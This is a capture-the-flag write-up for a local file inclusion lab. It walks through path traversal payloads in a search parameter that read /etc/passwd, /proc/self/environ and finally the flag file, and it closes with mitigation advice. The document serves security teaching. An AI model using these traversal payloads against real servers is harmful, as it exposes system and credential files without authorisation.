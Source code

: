 # 🛡️ Enumerate - Local File Inclusion (LFI) – Writeup

## 📖 What is Local File Inclusion (LFI)?

**Local File Inclusion (LFI)** is a type of vulnerability that occurs when a web application includes files on the server dynamically, using user-supplied input without proper validation or sanitization. If not properly secured, this can allow attackers to read arbitrary files on the server.

### 🔥 Common Impact of LFI:
- Reading sensitive files (e.g., `/etc/passwd`, application source code)
- Disclosure of credentials or secrets
- Possible remote code execution in certain setups (e.g., log poisoning, wrappers)

---

## Target: ```http://web.labs.defhawk.com:12000/```
![Target](Screenshot From 2025-07-14 13-24-52.png)

## 🧩 Challenge Summary

The web application provides a search functionality with the following URL structure:

```
http://web.labs.defhawk.com:12000/search?term=flag&sample=Sample1
```

![Flag](Screenshot From 2025-07-14 13-26-41.png)

Our goal was to exploit an LFI vulnerability to enumerate system files and retrieve the flag.

---

## 🕵️ Step 1: Testing for LFI

To determine if the `sample` parameter is vulnerable to LFI, we attempted to traverse out of the web directory and access `/etc/passwd`:

```
/search?term=flag&sample=../../../../../etc/passwd
```
![/etc/passwd](Screenshot From 2025-07-14 13-30-58.png)

✅ **Success** – The contents of `/etc/passwd` were displayed, confirming the LFI vulnerability.

---

## 🔍 Step 2: User Enumeration

From the `/etc/passwd` output, we identified a non-system user:

```
node:x:1000:1000::/home/node:/bin/bash
```

This indicated that the `node` user might own or access the flag.

We attempted to access:

```
/search?term=flag&sample=../../../../../home/node/flag.txt
```

But received no output.

---

## 🧪 Step 3: Reading Environment Variables

We used LFI to read environment variables, which often contain useful path info:

```
/search?term=flag&sample=../../../../../proc/self/environ
```

✅ This returned:

```
HOME=/root
PWD=/usr/src/app
```
![/proc/self/environ](Screenshot From 2025-07-14 13-34-50.png)

This revealed that the working directory for the application was `/usr/src/app`.

---

## 🏁 Step 4: Retrieving the Flag

Using this information, we attempted to access:

```
/search?term=flag&sample=../../../../../usr/src/app/flag.txt
```

✅ **Success** – The flag was retrieved successfully.

![flag](Screenshot From 2025-07-14 13-36-58.png)

---

## 🔐 LFI Mitigation Strategies

To prevent LFI vulnerabilities:

1. **Avoid dynamic file inclusion from user input** wherever possible.
2. **Whitelist allowed filenames or file paths** if dynamic inclusion is required.
3. **Validate and sanitize user input** thoroughly.
4. **Use secure coding libraries or frameworks** that handle file access securely.
5. **Disable directory traversal** by stripping `../` sequences from input.
6. **Apply least privilege** to the web server and application user accounts.
7. **Use web application firewalls (WAFs)** to detect and block LFI patterns.

---

## ✅ Conclusion

By carefully examining application behavior and exploiting path traversal, we were able to:

- Identify a Local File Inclusion vulnerability
- Enumerate system users
- Discover application runtime paths
- Successfully extract the flag

This challenge highlights the importance of **input validation** and **secure coding practices** to defend against file inclusion attacks.
